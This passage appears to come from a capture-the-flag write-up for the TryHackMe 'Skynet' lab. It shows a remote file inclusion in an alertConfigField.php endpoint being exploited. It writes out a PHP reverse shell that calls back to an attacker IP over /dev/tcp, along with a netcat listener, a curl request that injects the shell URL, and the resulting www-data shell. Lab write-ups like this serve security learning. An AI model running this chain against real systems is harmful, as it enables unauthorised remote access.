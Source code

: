 ```bash
searchsploit -x 25971
```

![](/assets/obsidian/d5ebf380dceaa66d0feb6575853a1803.png)

Visit the URL to make sure it's likely vulnerable

![](/assets/obsidian/7105ca6544306c34a7409d8e3d3e851d.png)

Set up revshell 

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ vi shell.php

┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ cat shell.php
<?php system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.11.19.145/1111 0>&1'"); ?>

┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ python3 -m http.server 80
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ rlwrap -r -f . nc -nlvp 1111
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ curl http://10.10.131.237/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.19.145/shell.php
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.131.237] 45406
bash: cannot set terminal process group (1318): Inappropriate ioctl for device
bash: no job control in this shell
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$
```
